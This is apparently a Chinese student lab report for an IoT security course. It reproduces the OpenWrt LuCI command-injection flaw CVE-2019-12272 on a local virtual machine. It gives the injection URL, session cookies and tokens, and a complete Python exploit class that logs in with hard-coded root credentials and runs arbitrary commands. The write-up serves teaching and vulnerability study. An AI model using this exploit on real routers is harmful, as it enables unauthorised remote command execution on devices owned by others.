## 移动通信与物联网安全概述

### 实验要求  
- [x] OpenWrt LuCI 0.10漏洞复现  
- [x] 编写自动化漏洞利用工具  
### 实验环境  
* 参考 第一章实验 OpenWrt on VirtualBox 的方法，下载安装存在该漏洞的 OpenWrt 镜像版本。  
* OpenWrt br-lan的IP地址：192.168.56.3
### 漏洞复现    
* 搭建好luCI环境，使用管理员权限登录  
    
      
* 设置管理员密码  
    * system-->administration  
    * 或者OpenWrt终端通过password口令设置

* 使用浏览器访问 
    ```
    http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 
    ```   
    触发漏洞   
     
* 访问 http://192.168.56.3/cmd.txt 获取上一步命令执行的结果。  
  
* OpenWrt上出现command.txt文件  
  
* 既然可以输出ifconfig的结果，就可以修改访问代码，输出其他命令，比如id、ls等命令  
    
    

### 漏洞利用   
* 通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令  


* 通过第三方网站 将 curl 命令转换为 Python requests 代码  
    ```  
    import requests

    cookies = {
        'sysauth': '4d0127221bb93411098d3788e05dc678',
    }

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }

    response = requests.get('http://192.168.56.3/cgi-bin/luci/;stok=8112cbe04d3248924f97096f3b1e3d7a/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
    ```  
### 编写自动化漏洞利用工具  

```  
import requests 

#用于字符串分割
from urllib.parse import urlparse 

#命令行传参
import sys
class CVE_2019_12272: 

    #定义实例变量，方便此类中的其他方法进行调用
    def __init__(self):
        self.host = '192.168.56.3'
        self.uname = 'root'
        self.upass = '123456'
        self.stok = ''
        self.cookies = ''
        self.headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
}
    #自动化登录，发出请求，从响应中获取信息
    def login(self):

        data = {
  'luci_username': self.uname,
  'luci_password': self.upass
}
        #访问luci网页
        response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, data=data, verify=False,allow_redirects=False)

        #获取cookies
        self.cookies = response.cookies
        location = response.headers['location']

        #获取此次登陆的stok（因为每次的登陆的stok都不一样）
        self.stok = urlparse(location).params
        #print(response.headers)
        #print(response.cookies)

        #打印结果是stok=······
        #print(stok)

    #自动化漏洞利用
    def shell(self, cmd):
        #等同于手动过程中的访问网址完成攻击
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0%5E$({cmd}%3ecmd.txt)'.format(host=self.host,stok=self.stok,cmd=cmd)
        response = requests.get(url, headers=self.headers, cookies=self.cookies, verify=False)

    #输出上一步攻击的结果，并打印出来
    def view(self):
        #上一步指令的结果已经被写入到cmd.txt,所以访问这个文件查看
        url = 'http://{host}/cmd.txt'.format(host=self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == "__main__":
    exp = CVE_2019_12272()
    exp.login()
    
    #可以自己在命令行输入口令，得到对应的攻击结果
    exp.shell(sys.argv[1])
    exp.view()  
```
* 运行结果示例  


  
* *一些补充*  
因为luci界面每次登录的stok都不同，所以自动化漏洞利用时不仅需要获取用户名和密码，还有stok，方法如下：

然后同样copy as url后，使用在线工具转换成python代码
    ```  
    import requests

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'http://192.168.56.3',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://192.168.56.3/cgi-bin/luci',
        'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
    }

    data = {
    'luci_username': 'root',
    'luci_password': '123456'
    }

    response = requests.post('http://192.168.56.3/cgi-bin/luci', headers=headers, data=data, verify=False)  
    ```
    打印这个response，获取我们需要的信息。
    

### 问题与解决  
本章暂无
### 参考资料
[移动互联网课件](https://github.com/c4pr1c3/cuc-mis/blob/master/chap0x04/cve-2019-12272.md)  

[移动互联网教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)